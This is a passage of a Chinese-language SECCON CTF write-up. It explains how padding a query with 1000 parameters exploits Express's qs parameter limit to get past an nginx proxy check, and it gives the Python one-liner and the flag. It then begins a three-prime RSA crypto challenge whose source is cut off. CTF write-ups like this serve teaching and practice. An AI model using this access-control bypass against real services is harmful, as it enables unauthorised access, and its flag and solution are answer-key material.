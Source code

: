 ```javascript=

```
:::

:::spoiler default.conf
```nginx=
server {
  listen 8080 default_server;
  server_name nginx;

  location / {
    set $args "${args}&proxy=nginx";
    proxy_pass http://web:3000;
  }
}

```
:::

可以看到，當使用 nginx 進入時，會自動帶上 `proxy=nginx` 的參數，而程式中會判斷是否有這一項參數，如果沒有的話就會吐出 flag

以下是別人的解法:
![](https://i.imgur.com/PmMnOMd.png)

經測試發現，似乎當參數超過 1000 個的時候，後面剩下的參數就會被忽略

查詢文件後，發現是 `express` 框架中預設使用 `qs` 模組作為 query string 的 parser，而其預設限制即為 1000 個參數

![](https://i.imgur.com/TR77sSo.png)

[參考資料](https://expressjs.com/en/api.html)

![](https://i.imgur.com/ozezng0.png)

[參考資料](https://www.npmjs.com/package/qs)

因此，透過以下程式，即可獲得 flag

```python=
requests.get('http://skipinx.seccon.games:8080/?proxy=' + 'a=3&'*1000).text
```

![](https://i.imgur.com/7EdOcqY.png)

SECCON{sometimes_deFault_options_are_useful_to_bypa55}

## Crypto
### (X) pqpq
![](https://i.imgur.com/FUYHATm.png)

:::spoiler problem.py
```python=
from Crypto.Util.number import *
from Crypto.Random import *
from flag import flag

p = getPrime(512)
q = getPrime(512)
r = getPrime(512)
n = p * q * r
e = 2 * 65537

assert n.bit_length() // 8 - len(flag) > 0
padding = get_random_bytes(n.bit_length() // 8 - len(flag))
m = bytes_to_long(padding + flag)

```